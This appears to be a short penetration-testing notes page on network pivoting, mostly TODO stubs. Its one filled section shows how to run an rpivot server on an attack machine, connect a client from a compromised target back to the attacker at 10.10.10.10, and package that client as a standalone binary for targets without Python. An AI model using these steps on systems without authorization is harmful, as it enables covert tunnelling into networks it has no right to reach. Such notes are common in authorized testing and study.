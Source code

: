 # Network

This page has tips and snippets for basic network navigation and exploitation.

## ARP Spoofing

TODO

## Proxying Around

### Port Forwarding

TODO: normal ssh portforwards

### SOCKS Proxying

TODO

### Reverse SOCKS Proxying

TODO: OpenSSH 7.6+ `ssh -R`

Sometimes you end up on a box without credentials or any other of "forward" dynamic-proxying through it (through traditional `ssh -D` methods). In these cases, the [rpivot](https://github.com/klsecservices/rpivot) project is insanely useful. Think of it like a "reverse" `ssh -D`.

It uses a client-server architecture, and only supports Python 2.6/2.7. On your attack machine, download and run the server:

```sh
# Download and package both the client and server into a zip file; allows for easier deployment.
cd /opt && git clone https://github.com/klsecservices/rpivot && cd rpivot
zip rpivot.zip -r *.py ./ntlm_auth/

# Run the server on your attack machine.
python rpivot.zip server --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
```

Then transfer the built `rpivot.zip` file to the target and connect the client back to the server:

```sh
# Connect back to attacker-controlled server at 10.10.10.10.
python rpivot.zip client --server-ip 10.10.10.10 --server-port 9999
```

You should now be able to use `proxychains` (or another SOCKS4 proxy client) to tunnel through the machine where you ran the client.

If you need to deploy the `rpivot` client to a target without Python, compile it into a standalone binary with [PyInstaller](https://www.pyinstaller.org/):

```sh
cd /opt/rpivot
pyinstaller -F client.py
file dist/client
```

The same can be done with the server, if necessary.

